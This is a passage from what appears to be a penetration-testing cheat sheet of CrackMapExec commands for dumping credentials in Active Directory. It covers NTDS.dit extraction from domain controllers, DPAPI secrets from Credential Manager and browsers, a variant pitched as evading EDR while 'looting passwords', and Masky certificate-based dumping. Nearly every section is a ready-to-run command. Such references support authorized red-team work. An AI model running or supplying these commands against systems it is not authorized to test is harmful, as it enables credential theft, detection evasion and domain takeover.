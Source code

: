 ⚠️ Requirement : Domain Admin ou Local admin privileges on the Domain Controller

```bash
cme smb <dc-ip> -u <user> -p <password> --ntds
```

## Dump NTDS (ntdsutil)
#assessment/AD #attack_type/Dump #port/445 #port/139 #protocol/smb #access/Domain_Admin

Dump the NTDS.dit using methods from ntdsutil.

⚠️ Requirement : Domain Admin ou Local admin privileges on the Domain Controller

```bash
cme smb <dc-ip> -u <user> -p <password> -M ntdsutil
```

## Dump DPAPI
#assessment/AD #attack_type/Dump #port/445 #port/139 #protocol/smb #access/Admin

Dump the DPAPI credentials from target host. Retrieves all secrets from Credential Manager, Chrome, Edge, Firefox.

⚠️ Requirement : Local admin privileges on the remote target (use --local-auth if the user is a local account)

```bash
cme smb <dc-ip> -u <user> -p <password> --dpapi
```

## Dump DPAPI NoSystem (avoid EDR trigger)
#assessment/AD #attack_type/Dump #port/445 #port/139 #protocol/smb #access/Admin

Dump the DPAPI credentials from target host. Retrieves all secrets from Credential Manager, Chrome, Edge, Firefox.
Won't collect system credentials. This will prevent EDR from stopping you from looting passwords.

⚠️ Requirement : Local admin privileges on the remote target (use --local-auth if the user is a local account)

```bash
cme smb <dc-ip> -u <user> -p <password> --dpapi nosystem
```

## Dump Masky
#assessment/AD #attack_type/Dump #port/445 #port/139 #protocol/smb #access/Admin

Dump domain user credentials via an ADCS and a KDC.

⚠️ Requirement : Local admin privileges on the remote target (use --local-auth if the user is a local account)

```bash
cme smb <dc-ip> -u <user> -p <password> -M masky -o CA=<domain>\<domain-host-CA>
```

## Dump PowerShell history
#assessment/AD #attack_type/Dump #port/445 #port/139 #protocol/smb #access/Admin
